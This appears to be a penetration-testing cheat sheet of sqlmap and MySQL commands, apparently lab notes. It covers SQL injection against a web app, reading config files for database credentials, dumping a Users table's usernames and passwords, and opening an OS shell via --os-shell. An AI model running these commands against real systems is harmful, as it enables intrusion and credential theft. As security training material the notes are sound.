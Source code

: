 ## SQL Penetration Testing Techniques

### SQLMAP
```
sqlmap -u "http://domain.com"
```

### Identifying vulnerabilities with SQLMap
```
# Intercept a login with burpsuite
# Copy the intercept and save to a file login.req
sqlmap -r login.req --level 5 --risk 3
```

### Locate the localhost file making connection to the SQL
```
# Grep for localhost from within /www/ dir
grep "localhost" ./ -R

# If presented with config.php or similar. Check for login details
cat ./path/to/config.php
```

### Generic SQL commands
```
# Login to mysql on current system
mysql -u root -p

# Login to mysql on external server
mysql -u root -h 10.11.1.208 -p

show databases;
use db_name;
show tables;
select * from table_name;
```

### Example of blind SQL injection with sqlmap
```
sqlmap http://192.168.124.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm --tables --threads 5
sqlmap http://192.168.124.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm -T Users -C Username,Password --dump --threads 5
sqlmap http://192.168.124.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell
```

